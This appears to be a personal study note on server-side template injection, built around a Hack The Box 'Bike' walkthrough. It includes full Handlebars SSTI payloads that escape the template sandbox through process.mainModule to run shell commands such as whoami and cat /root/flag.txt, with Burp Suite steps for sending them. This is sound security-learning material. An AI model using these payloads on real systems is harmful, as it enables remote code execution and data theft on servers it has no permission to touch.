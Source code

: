 # [Server-side template injection](https://portswigger.net/research/server-side-template-injection)
> Server-side template injection is a vulnerability where the attacker injects malicious input into a template in order to execute commands on the server. SSTI is an exploitation technique where the attacker injects native (to the Template Engine) code into a web page. The code is then run via the Template Engine and the attacker gains code execution on the affected server. This attack is very common on `Node.js` websites.

## Contents: 
- [Template Engines]()
- [Exploit: Via Burp Suite]()
- [Hack the Box: Bike]()
  - [Encode to URL]()
  - [Problem]()
  - [Solution]()

## Template Engines
- You must first determine **_if_** you have a Template Engine.
- Template Engines are used to display dynamically generated content on a web page. They replace the variables inside a template file with actual values and display these values to the client.
- Template Engines, like all software, are prone to vulnerabilities, like for example Server Side Template Injection (SSTI).
- Link: [Various exploitation techniques for various different template engines.](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- That site states: 

> Identifying the template engine involves analyzing error messages or manually testing various language-specific payloads. Common payloads causing errors include `${7/0}`, `{{7/0}}`, and `<%= 7/0 %>`. Observing the server's response to mathematical operations helps pinpoint the specific template engine.

## Exploit: Via Burp Suite
- Following the previous link to [hacktriks' SSTI how-to page.](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).. 
- Follow his testing inputs to find out if your target sitew is using a Template Engine, and then which one.
- He has several Engines with specific exploit code.

## Hack the Box: Bike
- I followed hacktriks'testing inputs and found out the target site is running Handlebars. 
- [Hacktriks has a write-up on exploiting Handlebars](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs)
- His exploit code: 

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

- NOTE THE LINE: `{{this.push "return require('child_process').exec('whoami');"}}`
- That line tests remote code execution with `whoami`

### Encode to URL
- Copy the above code and paste it into Burp's Decoder. Select `Encode as... URL`
- That should give you a long string of percent code. That's what we're going to use.

### Problem
- Start up Burp Suite. Turn on FoxyProxy. Use Burp's Proxy tab to capture a Submit from the website (anything will do). 
- Send the capture to Repeater... replace the text being sent via the Form with our URL encoded exploit.

![Pasted image 20240229203438](https://github.com/GregKedrovsky/Hacking/assets/26492233/2dd3fb4f-7035-4c22-8311-048575b3e692)

- This does not work right outta the box. We get an error: The response shows an error that states `require is not defined`.  
- `require` is a keyword in Node.js that is used to load code from other modules or files. The above code is attempting to load the Child Process module into memory and use it to execute system commands (in this case `whoami`).
- Template Engines are often Sandboxed, meaning their code runs in a restricted code space so that in the event of malicious code being run, it will be very hard to load modules that can run system commands. 

### Solution
- Node.js may allow the [process object](https://nodejs.org/api/process.html#process) and if it does, we can use that to load the `require` module. Need to test it first with this code (encode to URL, paste into Repeater): 

```
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process;"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

-  The line with `{{this.push "return process;"}}` should return `[object process]`. That indicates we can use this object.
- The `process` object has a [mainModule](https://nodejs.org/api/process.html#processmainmodule). It is deprecated, but it still might be available and useful ([blog post on the module](https://www.geeksforgeeks.org/node-js-process-mainmodule-property/)). 
- Test to see if the mainModule is accessible to us (encode to URL, paste into Repeater): 

```
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule;"}}                #  this is the line
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

- There is no error. We get an `[object Object]` return that indicates it worked. Accessible.
- Try to get a system command to work (encode to URL, paste into Repeater): 

```
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

- Line to watch: 
  `{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}`
- That should give you `root`
- Now just replace `whoami` with `ls /root` and you should see the flag file. Use `cat /root/flag.txt` in the line above (encode to URL, paste into Repeater). Should get it.
